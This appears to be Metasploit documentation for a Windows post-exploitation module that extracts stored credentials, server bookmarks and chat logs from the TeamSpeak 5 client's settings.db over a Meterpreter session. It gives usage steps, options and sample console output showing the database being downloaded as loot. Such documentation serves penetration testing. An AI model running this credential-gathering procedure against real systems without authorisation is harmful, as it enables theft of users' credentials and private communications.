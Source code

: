 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the TeamSpeak 5 Client.

The TeamSpeak 5 Client is avaialble from (https://www.teamspeak.com/en/downloads/#ts5client).

This module extracts information from the setting.db file in the "AppData\Roaming\TeamSpeak" directory.

This module extracts server bookmarks and chat logs.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/teamspeak5_client
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### TeamSpeak 5 Client v5.0.0-beta77 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/teamspeak5_client) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Teamspeak 5 client's Settings.db file found
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162835_default_10.0.0.2_teamspeak5clie_839078.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162835_default_10.0.0.2_EXTRACTIONSsetti_004931.db
[*] Teamspeak 5 client's Settings.db file found
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162836_default_10.0.0.2_teamspeak5clie_509632.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162836_default_10.0.0.2_EXTRACTIONSsetti_077545.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### TeamSpeak 5 Client v5.0.0-beta77 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/teamspeak5_client) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Teamspeak 5 client's base folder not found in user's user directory

[-] Teamspeak 5 client's base folder not found in user's user directory

[*] Starting Packrat...
[*] Teamspeak 5 client's base folder found
[*] Found the folder containing specified artifact for settings.db.
[*] Teamspeak 5 client's Settings.db file found
[*] Processing C:\Users\test\AppData\Roaming\TeamSpeak\Default
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162858_default_10.0.0.2_teamspeak5clie_862604.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162858_default_10.0.0.2_EXTRACTIONSsetti_713451.db
[*] Teamspeak 5 client's base folder found
[*] Found the folder containing specified artifact for settings.db.
[*] Teamspeak 5 client's Settings.db file found
[*] Processing C:\Users\test\AppData\Roaming\TeamSpeak\Default
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162858_default_10.0.0.2_teamspeak5clie_814911.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162859_default_10.0.0.2_EXTRACTIONSsetti_786231.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
